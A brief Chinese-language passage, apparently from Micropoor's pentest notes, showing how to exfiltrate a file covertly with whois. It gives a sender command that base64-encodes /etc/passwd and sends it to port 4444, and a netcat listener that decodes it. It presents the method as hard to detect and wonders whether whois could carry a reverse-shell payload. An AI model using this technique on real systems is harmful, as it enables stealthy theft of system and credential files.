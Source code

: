 利用whois传输文件：

传输机：
```bash
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
```

接受机：
```bash
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```
![](media/cd6ba6694ef1388b87dc4a5ce706ecd8.jpg)

![](media/2ee55e5bed9e117f9340df1f2e755410.jpg)  

**优点：**适用于隐蔽传输。最小化被发现。  
**缺点：**适用于传输小文件。


>   后者的话：whois是否同样适用于payload的反弹，是一个非常有趣的实验。  
> 
>   Micropoor
